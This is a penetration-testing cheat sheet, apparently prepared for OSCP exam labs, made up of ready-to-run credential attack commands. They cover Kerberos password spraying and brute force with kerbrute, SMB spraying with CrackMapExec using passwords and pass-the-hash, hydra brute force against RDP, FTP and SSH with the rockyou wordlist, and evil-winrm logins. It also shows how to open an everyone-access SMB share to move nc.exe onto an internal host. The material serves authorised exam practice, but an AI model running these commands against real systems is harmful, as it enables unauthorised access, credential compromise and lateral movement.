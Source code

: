 #### Kerberos
**Password Spray**
`proxychains -q /home/kali/go/bin/kerbrute passwordspray -d oscp.exam users.txt hghgib6vHT3bVWf --dc 10.10.103.152 -vvv`
**Bruteforce**
`proxychains -q /home/kali/go/bin/kerbrute bruteuser -d oscp.exam jeffadmin passwords.txt --dc 10.10.103.152 -vvv`

#### SMB
`proxychains -q /home/kali/.local/bin/cme smb 172.16.201.10-14 172.16.201.82-83 -u users.txt -p passwords.txt -d medtech.com --continue-on-success`

`proxychains -q /home/kali/.local/bin/cme smb 172.16.201.10-14 172.16.201.82-83 -u users.txt -p passwords.txt --continue-on-success`

`cme smb 192.168.201.10 -u users.txt -H '<HASH>' --continue-on-success`

`cme smb 192.168.201.10 -u users.txt -p passwords.txt --continue-on-success --local-auth`

#### RDP
`hydra -V -f -l offsec -P /usr/share/wordlists/rockyou.txt rdp://192.168.232.218:3389 -u -vV -T 40 -I`

`hydra -V -f -L users.txt -P passwords.txt rdp://192.168.232.218 -u -vV -T 40 -I`

#### WinRM
`evil-winrm -i 192.168.201.10 -u jeffadmin -p 'password'`

`evil-winrm -i 192.168.201.10 -u jeffadmin -H 'HASH'`

#### FTP
`hydra -V -f -l offsec -P /usr/share/wordlists/rockyou.txt ftp://192.168.232.218:21 -u -vV -T 40 -I`

#### SSH
`hydra -V -f -l offsec -P /usr/share/wordlists/rockyou.txt ssh://192.168.232.218:22 -u -vV -T 40 -I`


## SMB Server (Windows)
If you can't move file from Kali to the internal network, you can create a new share on DMZ.
- Need Administrator+ on **M1**
- Make sure to transfer the files into C:\temp you want to host

**On M1:**
`mkdir C:\temp`

`New-SmbSHare -Name 'temp' -Path 'C:\temp' -FullAccess everyone`

**On M2:**
`net use \\10.10.10.20\temp`

`copy \\10.10.10.20\temp\nc.exe C:\nc.exe`
